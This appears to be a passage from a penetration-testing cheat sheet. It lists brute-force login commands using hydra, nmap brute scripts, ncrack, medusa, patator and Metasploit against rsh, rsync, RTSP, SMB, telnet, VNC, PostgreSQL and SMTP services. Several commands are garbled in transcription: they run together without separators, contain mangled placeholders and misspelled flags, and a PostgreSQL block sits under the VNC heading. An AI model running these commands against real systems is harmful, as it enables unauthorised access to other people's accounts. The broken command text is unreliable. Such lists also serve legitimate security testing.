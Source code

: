 ## Rsh

```
hydra -L <Username_list> rsh://<Victim_IP> -v -V
```

​[**Rsa-Grind**](https://github.com/pentestmonkey/rsh-grind) - tries lots of combinations of local and remote usernames to execute commands via RSH

## Rsync

```
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```

## RTSP

```
hydra -l root -P passwords.txt <IP> rtsp
```

## SMB

```
nmap --script smb-brute -p 445 <IP>​

hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
```

## Telnet

```
hydra -l root -P passwords.txt [-t 32] <IP> telnet​ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]​medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet
```

## VNC

```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc​medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc​ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T
```

```
patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
```

```
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```

### SMTP

```
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
```
